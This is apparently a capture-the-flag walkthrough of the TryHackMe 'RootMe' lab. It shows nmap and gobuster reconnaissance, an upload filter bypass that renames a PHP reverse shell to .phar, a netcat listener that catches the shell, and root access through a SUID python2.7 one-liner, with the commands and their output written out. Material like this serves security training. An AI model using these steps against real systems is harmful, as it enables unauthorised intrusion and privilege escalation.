



## Nmap: 
---
```bash
nmap -T4 -p - 10.113.189.118 -v
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

- after the initial scan, perform a more detailed scan using the `-A` flag to gather additional information about the open ports:

```
nmap -T4 -A -p 22,80 10.113.189.118 -v -oN nmap
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4e:dd:21:71:be:0c:a6:ef:e9:ed:ac:8b:be:59:60:56 (RSA)
|   256 1b:28:6c:ba:ac:c8:b0:a4:3a:50:73:38:a3:41:66:e6 (ECDSA)
|_  256 eb:2f:64:6e:1d:e6:8b:c4:a5:60:69:26:3c:0a:00:d3 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- from this output, the first three questions in the **Reconnaissance** section can be answered.
- next, inspect the web server.



- start a `gobuster` scan to discover hidden directories and answer the final question in the **Reconnaissance** section
## Gobuster: 
---
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.113.189.118 -o gobuster/first_enum
```

```bash
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.113.189.118
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/js                   (Status: 301) [Size: 313] [--> http://10.113.189.118/js/]
/css                  (Status: 301) [Size: 314] [--> http://10.113.189.118/css/]
/.htm                 (Status: 403) [Size: 279]
/uploads              (Status: 301) [Size: 318] [--> http://10.113.189.118/uploads/]
/.                    (Status: 200) [Size: 616]
/panel                (Status: 301) [Size: 316] [--> http://10.113.189.118/panel/]
/.htaccess            (Status: 403) [Size: 279]
/.phtml               (Status: 403) [Size: 279]
/.htc                 (Status: 403) [Size: 279]
/.html_var_DE         (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.html.               (Status: 403) [Size: 279]
/.html.html           (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
/.htm.                (Status: 403) [Size: 279]
/.htmll               (Status: 403) [Size: 279]
/.phps                (Status: 403) [Size: 279]
/.html.old            (Status: 403) [Size: 279]
/.ht                  (Status: 403) [Size: 279]
/.html.bak            (Status: 403) [Size: 279]
/.htm.htm             (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.htgroup             (Status: 403) [Size: 279]
/.html1               (Status: 403) [Size: 279]
/.html.LCK            (Status: 403) [Size: 279]
/.html.printable      (Status: 403) [Size: 279]
/.htm.LCK             (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htmls               (Status: 403) [Size: 279]
/.htx                 (Status: 403) [Size: 279]
/.html.php            (Status: 403) [Size: 279]
/.html-               (Status: 403) [Size: 279]
/.htlm                (Status: 403) [Size: 279]
/.htuser              (Status: 403) [Size: 279]
/.htm2                (Status: 403) [Size: 279]
```

- the `/panel` and `/uploads` directories are particularly interesting
## Upload Form:
---
- opening the `/panel` page reveals a file upload form:


- we can try to upload a `reverse shell` 
- I personally used the `php reverse shell` from _pentestmonkey_ 

- when I tried to upload `reverse-shell.php` I got this message: 


- so the upload did not work and there is probably a filter, that filters out files with the `.php` extension 
- so I changed the file extension to `.phar`
- `.phar` is a **compressed archive for PHP**, similar to `.zip` and can be executed directly by `php` 

- so I tried to upload `reverse-shell.phar`: 


- as you can see it worked 
- the `reverse shell` got stored in the `uploads` directory, but before we execute it we have to start a listener with `netcat`: 
 ```bash
 nc -lnvp 1234
 ```

- now we can execute the `reverse-shell` with this url:
```bash
http://10.113.189.118/uploads/reverse-shell.phar
```

- after this, we got a `reverse shell`: 
```bash
erik@Debian:~/Desktop/TryHackMe/RootMe$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.113.189.118 37770
Linux ip-10-113-189-118 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 10:51:26 up 25 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

- lets get a more stabilized shell: 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

## user.txt: 
---
- after looking through the system I found the `user.txt` in `/var/www`: 
```bash
THM{<Redacted>}
```

## root.txt: 
---
- at first I checked what `SUID` binary's exist on the system: 
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

- there was one binary, that looked interesting:
```bash
794694   3576 -rwsr-xr-x   1 root     root        3657904 Dec  9  2024 /usr/bin/python2.7
```

- lets open up `GTFOBins` and check if we can get a `root shell` with `python`: 


- as you can see, we indeed can use `python` to do it 
- lets copy the command and execute it: 
```bash
www-data@ip-10-113-189-118:/usr/bin$ python2 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

- now we are `root` and can read the `root.txt`: 
```bash
THM{<Redacted>}
```